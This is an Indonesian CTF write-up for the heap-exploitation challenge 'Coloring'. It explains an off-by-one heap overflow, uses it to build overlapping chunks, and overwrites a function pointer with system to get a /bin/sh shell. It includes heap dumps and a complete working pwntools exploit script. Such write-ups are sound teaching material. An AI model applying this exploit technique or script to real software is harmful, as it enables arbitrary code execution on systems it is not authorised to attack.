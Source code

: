 # Coloring (0 solves)

Challenge ini merupakan pengenalan dari heap exploitation. Seperti chall-chall pwn saya yang lain, diberikan source code dari program yang akan dieksploitasi sehingga kita tidak perlu kesulitan untuk memahami apa yang program ini lakukan dan bisa fokus di pencarian vulnerability dan eksploitasi.

Singkat cerita, vulnerability di program ini terdapat pada saat melakukan create text, tepatnya pada size yang dialokasikan.
```c
    texts[index] = malloc(sizeof(color_text) + size - 1);
```
> Jika anda penasaran kenapa ditambah `sizeof(color_text)`, silahkan baca mengenai [Flexible Array Member](https://en.wikipedia.org/wiki/Flexible_array_member)

Terlihat bahwa size yang dialokasikan dikurangi 1 byte. Hal ini merupakan sebuah bug karena selanjutnya program akan meminta user untuk mengisi buffer dengan string berukuran `size`
```c
    printf("Text: ");
    int n = read(STDIN_FILENO, texts[index]->text, size);
```
Konsekuensinya, terdapat buffer overflow sebesar 1 byte.

Lalu apa yang akan terjadi?

Ayo kita coba alokasikan 2 buah text berukuran 20 dan lihat seperti apa strukturnya di dalam heap arena

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Kedua text yang kita buat disimpan di dalam dua buah chunk yang berdampingan, yaitu
```
                                               0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000
```
dan 
```
                                               0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000
```
`0x0000000000000031` merupakan size dari chunk, `0x00000000004011ef` adalah value dari field color_printer, dan data selanjutnya adalah text yang kita input.

Perhatikan bahwa terdapat size dari chunk tepat setelah text buffer. Ini artinya, kita bisa memanfaatkan buffer overfow sebesar 1 byte tersebut untuk mengoverwrite size dari chunk sebelahnya. Namun, untuk melakukan ini kita harus memilih size yang tepat, yaitu memenuhi syarat total_size >= 0x18 dan total_size & 0xf == 8, dengan total_size = sizeof(color_text) + size - 1. Karena sizeof(color_text) = 8, maka total_size = size + 7. Salah satu size yang memenuhi adalah 17, yang berarti total_size = 24 = 0x18.

Ayo kita coba alokasikan 2 buah text lagi berukuran 17, tetapi isi text kedua sampai penuh (17 karakter)

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ |                 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x4141414141414141 | ..@.....AAAAAAAA | 
[!] Corrupted (addr + chunk.size > sect.page_end)
0x4052d0|+0x00000|+0x002d0: 0x4141414141414141 0x0000000000020d41 | AAAAAAAAA....... |  <-  top
```
Terlihat bahwa terdapat kerusakan pada top chunk karena 1 byte dari field size-nya teroverwrite dengan 'A'. Terbukti bahwa kita bisa mengoverwrite size dari next chunk.

Hal yang bisa kita lakukan dengan hal tersebut yaitu membuat sebuah situasi dimana tedapat 2 chunk yang saling beririsan sehingga kita bisa mengoverwrite data dari salah satu chunk. Untuk mencapai situasi tersebut, perhatikan struktur heap setelah membuat 3 buah text.
```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052d0|+0x00000|+0x002d0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052e0|+0x00010|+0x002e0: 0x00000000004011c6 0x0000332054584554 | ..@.....TEXT 3.. | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Jika kita mengoverwrite size dari chunk kedua menjadi 0x41, maka kita bisa membuat chunk 2 dan chunk 3 menjadi saling beririsan. Alhasil kita bisa mengoverwrite data yang terdapat pada chunk 3. Target yang akan kita overwrite adalah field color_printer yang merupakan sebuah function pointer yang akan dipanggil di dalam fungsi print_text. Kita akan mengoverwrite-nya menjadi fungsi system, sehingga jika kita memiliki text "/bin/sh", maka system("/bin/sh") akan terpanggil ketika kita ingin melakukan print text tersebut.

Full solver:
```python
#!/usr/bin/env python3

import ctypes

from pwn import *

context.terminal = "kitty @launch --location=split --cwd=current".split()


def start(argv=[], *a, **kw):
    if args.LOCAL:
        argv = argv if argv else [exe.path]
        if args.GDB:
            return gdb.debug(argv, gdbscript=gdbscript, *a, **kw)
        return process(argv, *a, **kw)
    return remote(args.HOST or host, args.PORT or port, *a, **kw)


def safe_flat(*args, unsafe_chars=b"\n", **kwargs):
    p = flat(args, **kwargs)
    if any(c in unsafe_chars for c in p):
        raise ValueError("unsafe:", p)
    return p


def create_text(index, size, color, text):
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"(1-16): ", str(index).encode())
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendlineafter(b"Color: ", str(color).encode())
    io.sendafter(b"Text: ", text)


def print_text(index):
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b"(1-16): ", str(index).encode())


def delete_text(index):
    io.sendlineafter(b">> ", b"3")
    io.sendlineafter(b"(1-16): ", str(index).encode())


gdbscript = """
c
"""
host, port = args.HOST or "localhost", args.PORT or 16000
exe = context.binary = ELF(args.EXE or "../src/chall", False)

io = start()

pause()
create_text(1, 17, 1, b"overflow me\n")
create_text(2, 17, 1, b"size\n")
create_text(3, 17, 1, b"printer\n")

delete_text(1)

create_text(1, 17, 1, safe_flat({16: b"\x41"}))

delete_text(2)

create_text(2, 49, 1, safe_flat({16: [0x21, exe.sym["system"], b"/bin/sh\0"]}))

print_text(3)

io.interactive()

```

> Urutan operasi yang dilakukan sangat penting. Silahkan anda debug sendiri untuk mencari tahu kenapa saya memilih urutan operasi seperti di atas
